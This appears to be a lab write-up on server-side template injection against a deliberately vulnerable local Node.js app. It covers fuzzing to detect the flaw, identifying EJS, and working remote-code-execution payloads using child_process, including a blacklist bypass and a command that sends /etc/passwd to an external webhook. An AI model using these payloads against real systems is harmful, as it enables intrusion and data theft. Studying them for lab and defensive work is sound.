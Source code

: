 ## SSTI 

### Preparation

Go to `http://localhost:3000/settings` and set STTI is `Yes` ^^

Let's go to `/page-account` and check account details

![img.png](img.png)

### Detect

We will check by payload: `${{<%[%'"}}%\` (fuzzing the template)

![img_1.png](img_1.png)

And save changes. This's a web response. So sever execute my payload and throw error because payload `${{<%[%'"}}%\` is synthesized by many different templates.

![img_2.png](img_2.png)

In order to check it exactly, We will check payload `${7*7}`, `<%- 7*7 %>`, `{{7*7}}`,...

`${7*7}`

![img_3.png](img_3.png)

`<%- 7*7 %>`

![img_4.png](img_4.png)

![img_5.png](img_5.png)

So web server execute our expressions

We can detect type of template with `https://cheatsheet.hackmanit.de/template-injection-table/index.html`

![img_6.png](img_6.png)

=> EJS (NodeJS)

Firstly, I use the payload `<%= global.process.mainModule.require('child_process').execSync('curl https://webhook.site/a00c32ab-e5c5-4d2f-baf6-2f6d6ec5e343') %>`

![img_7.png](img_7.png)

Some words in blacklists????

I will use another payload: `<%= global.process.mainModule.require('child_process').spawn('curl https://webhook.site/a00c32ab-e5c5-4d2f-baf6-2f6d6ec5e343', [], { stdio: 'inherit', shell: true }) %>`

![img_8.png](img_8.png)

So you can excute any command like ls, rm, cat,...

replace curl... -> cat /etc/passwd | curl -X POST -d @- https://webhook.site/635fbc27-02fd-4391-b8dd-e38f73a75690

![img_9.png](img_9.png)